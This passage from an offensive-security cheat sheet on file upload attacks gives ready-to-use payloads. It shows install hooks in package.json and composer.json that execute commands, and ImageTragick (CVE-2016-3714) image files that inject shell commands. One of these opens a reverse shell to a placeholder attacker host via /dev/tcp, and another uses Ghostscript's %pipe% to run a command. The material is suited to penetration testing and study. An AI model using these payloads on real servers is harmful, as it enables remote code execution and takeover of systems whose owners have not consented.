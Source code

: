 When the configuration file will be parsed (e.g. restart, crash or autoreload) payload will be executed.


#### Dependency Manager

Alternatively you may be able to upload a JSON file with a custom scripts, try to overwrite a dependency manager configuration file.
- package.json
    ```js
    "scripts": {
        "prepare" : "/bin/touch /tmp/pwned.txt"
    }
    ```
- composer.json
    ```js
    "scripts": {
        "pre-command-run" : [
        "/bin/touch /tmp/pwned.txt"
        ]
    }
    ```


### CVE - ImageMagick

If the backend is using ImageMagick to resize/convert user images, you can try to exploit well-known vulnerabilities such as ImageTragik.

#### CVE-2016–3714 - ImageTragik 

Upload this content with an image extension to exploit the vulnerability (ImageMagick , 7.0.1-1)

* ImageTragik - example #1
    ```powershell
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
    pop graphic-context
    ```

* ImageTragik - example #3
    ```powershell
    %!PS
    userdict /setpagedevice undef
    save
    legal
    { null restore } stopped { pop } if
    { legal } stopped { pop } if
    restore
    mark /OutputFile (%pipe%id) currentdevice putdeviceprops
    ```
